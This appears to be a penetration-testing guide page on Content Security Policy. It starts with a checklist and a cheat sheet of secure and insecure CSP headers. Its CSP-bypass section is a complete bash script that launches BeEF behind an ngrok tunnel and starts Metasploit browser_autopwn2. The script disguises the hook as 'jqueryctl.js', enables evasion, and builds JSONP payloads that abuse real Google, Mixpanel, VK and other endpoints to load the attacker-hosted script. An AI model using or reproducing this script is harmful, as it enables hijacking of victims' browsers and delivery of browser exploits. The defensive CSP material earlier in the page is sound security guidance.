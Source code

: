 # Content Security Policy

## Check List

* [ ] Review the Content-Security-Policy header or meta element to identify misconfigurations.

## Methodology

{% stepper %}
{% step %}
### Content Security Policy
{% endstep %}

{% step %}
Inspect HTTP response headers of target
{% endstep %}

{% step %}
Observe the Content-Security-Policy header includes script-src 'unsafe-inline'
{% endstep %}

{% step %}
This allows inline scripts execution, weakening CSP protections against Cross-Site Scripting (XSS)
{% endstep %}

{% step %}
Although no direct exploit is shown, the presence of `unsafe-inline` increases risk of script injection attacks
{% endstep %}

{% step %}
Best practice Avoid `unsafe-inline` in `script-src` to reduce XSS attack surface
{% endstep %}
{% endstepper %}

{% stepper %}
{% step %}
Appending % or %" to the URL endpoint causes the browser to misinterpret or relax CSP enforcement
{% endstep %}

{% step %}
By inspecting and editing the HTML in the dev tools, an attacker can inject inline JavaScript and use this [cheat sheet](https://unk9vvn.gitbook.io/penetration-testing/web/misconfiguration/content-security-policy) despite a strict script-src policy, leading to a bypass of the CSP
{% endstep %}
{% endstepper %}

## Cheat Sheet

### CSP Header

#### [cURL](https://curl.se/)

```bash
curl -I $WEBSITE | grep "content-security-policy"
```

### CSP Parameters

{% hint style="info" %}
default-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src 'self'
```

{% hint style="info" %}
default-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: default-src *
```

{% hint style="info" %}
script-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'self' 'nonce-random123'
```

{% hint style="info" %}
script-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: script-src 'unsafe-inline'
```

{% hint style="info" %}
style-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'self' 'sha256-abc123'
```

{% hint style="info" %}
style-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: style-src 'unsafe-inline'
```

{% hint style="info" %}
img-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src 'self' https://cdn.example.com
```

{% hint style="info" %}
img-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: img-src *
```

{% hint style="info" %}
connect-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src 'self' https://api.example.com
```

{% hint style="info" %}
connect-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: connect-src *
```

{% hint style="info" %}
font-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src 'self' https://fonts.gstatic.com
```

{% hint style="info" %}
font-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: font-src *
```

{% hint style="info" %}
object-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src 'none'
```

{% hint style="info" %}
object-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: object-src *
```

{% hint style="info" %}
frame-src (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src 'self' https://trusted.example.com
```

{% hint style="info" %}
frame-src (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-src *
```

{% hint style="info" %}
frame-ancestors (Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors 'none'
```

{% hint style="info" %}
frame-ancestors (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: frame-ancestors *
```

{% hint style="info" %}
sandbox (Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox
```

{% hint style="info" %}
sandbox (Non-Secure)
{% endhint %}

```bash
Content-Security-Policy: sandbox allow-scripts allow-forms
```

### CSP Bypass

#### [BeEF ](https://beefproject.com/)& JSONP

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano beef-csp-bypass.sh
```

```bash
#!/bin/bash

RED='\e[1;31m'
GREEN='\e[1;32m'
YELLOW='\e[1;33m'
CYAN='\e[1;36m'
RESET='\e[0m'

# Check for ROOT
if [[ "$(id -u)" -ne 0 ]]; then
    printf "${RED}[X] Please run as ROOT...\n"
    exit 1
fi

# Get LAN and WAN IP addresses
LAN=$(hostname -I | awk '{print $1}')
WAN=$(curl -s https://api.ipify.org)

# Kill any running ngrok or ruby instances
pkill -f 'ngrok|ruby'

# Start Metasploit
msfconsole -qx "load msgrpc ServerHost=$LAN Pass=abc123 SSL=y; use auxiliary/server/browser_autopwn2; set LHOST $WAN; set URIPATH /pwn; run -z" &>/dev/null &
sleep 1

# Start ngrok and extract public URL
ngrok http 3000 &>/dev/null &
sleep 3
NGHOST=$(curl -s http://127.0.0.1:4040/api/tunnels | jq -r .tunnels[0].public_url | sed 's|https://||')
printf "${GREEN}[*] ngrok started successfully...${RESET}\n"

# Config BeEF
if grep -q "https: false" /usr/share/beef-xss/config.yaml; then
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|#     host: "" # public|     host: "'$NGHOST'" # public|' \
           -e 's|#     port: "" # public|     port: "443" # public|g' \
           -e 's|#     https: false|     https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: "127.0.0.1"|host: "'$LAN'"|g' \
           -e 's|callback_host: "127.0.0.1"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
else
    sed -i -e 's|user:   "beef"|user:   "unk9vvn"|g' \
           -e 's|passwd: "beef"|passwd: "00980098"|g' \
           -e 's|# public:|public:|g' \
           -e 's|host: ".*" # public|host: "'$NGHOST'" # public|' \
           -e 's|port: ".*" # public|port: "443" # public|g' \
           -e 's|https: false|https: true|g' \
           -e 's|allow_reverse_proxy: false|allow_reverse_proxy: true|g' \
           -e 's|hook.js|jqueryctl.js|g' \
           -e 's|BEEFHOOK|UNKSESSION|g' /usr/share/beef-xss/config.yaml
    sed -i -e 's|enable: false|enable: true|g' \
           -e 's|host: ".*"|host: "'$LAN'"|g' \
           -e 's|callback_host: ".*"|callback_host: "'$LAN'"|g' \
           -e 's|auto_msfrpcd: false|auto_msfrpcd: true|g' /usr/share/beef-xss/extensions/metasploit/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/modules/metasploit/browser_autopwn/config.yaml
    sed -i -e 's|enable: false|enable: true|g' /usr/share/beef-xss/extensions/evasion/config.yaml
fi

printf "${GREEN}[*] BeEF configuration updated...${RESET}\n"

# Start BeEF
cd /usr/share/beef-xss && ./beef -x &>/dev/null &

# Inject payload into JSONP callback
inject_payload()
{
    local url="$1"
    local js_payload="var script=document.createElement('script');script.src='https://${NGHOST}/jqueryctl.js';document.body.appendChild(script);"
    local encoded_callback=$(echo -n "$js_payload" | jq -sRr @uri)
    local test_url="${url/JSONP/$encoded_callback}"
    printf "%b\n" "\n${YELLOW}[*] Payload: <script src=\"${test_url}\"></script> ${RESET}\n"
}

# Target APIs for JSONP exploitation
targets=(
    "https://api.mixpanel.com/track/?callback=JSONP"
    "https://www.google.com/complete/search?client=chrome&q=hello&callback=JSONP"
    "https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=JSONP"
    "https://accounts.google.com/o/oauth2/revoke?callback=JSONP"
    "https://api-metrika.yandex.ru/management/v1/counter/1/operation/1?callback=JSONP"
    "https://api.vk.com/method/wall.get?callback=JSONP"
    "https://mango.buzzfeed.com/polls/service/editorial/post?poll_id=121996521&result_id=1&callback=JSONP"
    "https://ug.alibaba.com/api/ship/read?callback=JSONP"
)

# Run the attack
for target in "${targets[@]}"; do
    inject_payload "$target"
done

printf "\n"
printf "%b[*] BeEF Panel: https://${NGHOST}/ui/panel%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF USER: unk9vvn%b\n" "$CYAN" "$RESET"
printf "%b[*] BeEF PASS: 00980098%b\n" "$CYAN" "$RESET"
printf "%bBeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute%b\n" "$GREEN" "$RESET"
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x beef-csp-bypass.sh;sudo ./beef-csp-bypass.sh
```

